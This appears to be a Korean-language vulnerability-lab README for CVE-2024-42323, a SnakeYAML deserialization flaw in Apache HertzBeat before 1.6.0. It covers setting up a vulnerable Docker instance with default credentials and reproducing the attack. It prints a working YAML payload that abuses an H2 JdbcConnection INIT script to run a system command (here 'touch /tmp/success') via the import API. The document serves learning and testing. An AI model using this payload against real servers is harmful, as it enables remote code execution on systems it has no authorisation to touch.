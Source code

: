 ### Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

### 요약

Apache HertzBeat는 오픈소스 실시간 모니터링 및 경고 도구로, 운영 체제, 미들웨어, 데이터베이스 등을 웹 인터페이스를 통해 모니터링할 수 있습니다. 버전 1.6.0 이전의 HertzBeat는 YAML 파일을 파싱할 때 취약한 SnakeYAML 라이브러리를 사용하고 있습니다. 이로 인해, 인증된 사용자가 /api/monitors/import 또는 /api/alert/defines/import API를 통해 새로운 모니터링 타입을 임포트할 때 조작된 YAML 파일을 업로드하면 신뢰되지 않은 객체가 역직렬화되며, 원격 코드 실행(RCE)이 발생할 수 있습니다. 

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hertzbeat/CVE-2024-42323/README.zh-cn.md)


<br>

### 환경 구축

터미널에서 다음 명령어로 취약한 HertzBeat 1.4.4 버전을 실행합니다:

`docker compose up -d`

브라우저에서 http://<your-ip>:1157/dashboard로 접속할 수 있으며, 기본 로그인 정보는 다음과 같습니다:

![docker compose 실행 화면](images/docker_compose_up.png)

![hertzbeat 로그인 화면](images/hertzbeat_login.png)

- 아이디: admin
- 비밀번호: hertzbeat


<br>

### 취약점 재현 (공격 설명)

#### 1단계: 악성 YAML 파일 생성

파일명은 반드시 .yaml 확장자를 가져야 하며, 아래처럼 생성합니다.

`!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]`

![.yaml 파일 생성 화면](images/create_malicious_yaml.png)

- SnakeYAML은 II로 시작되는 Java 객체를 역직렬화합니다.
- 위 페이로드는 **org.h2.jdbc.JdbcConnection 객체를 생성**하며, 내부적으로 **H2 데이터베이스의 INIT 명령어**를 통해 시스템 명령어(touch /tmp/success)를 실행하게 만듭니다.
- 결국 Runtime.getRuntime().exec(...)로 시스템 명령이 실행되어 **RCE(원격 코드 실행)** 가 발생합니다.


<br>

#### 2단계: YAML 파일 업로드

HertzBeat 대시보드에 로그인 후, 모니터링 설정 화면으로 이동합니다.

![import 화면](images/yaml_import_screen.png)



1. "import" 버튼을 클릭한다.
2. 위에서 만든 악성 YAML 파일을 업로드한다.
   

<br>


#### 3단계: 코드 실행 확인

파일이 업로드되면서 SnakeYAML이 역직렬화를 수행하고, 내부에서 명령어가 실행됩니다.

페이로드의 경우, /tmp/success 파일을 생성하므로, 다음 명령어로 확인할 수 있습니다:

`docker exec -t <컨테이너 ID> ls /tmp`

![sucess 화면](images/success_file_created.png)






<br>

### 참고 자료

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- [https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md](https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml反序列化漏洞(CVE-2024-42323).md)

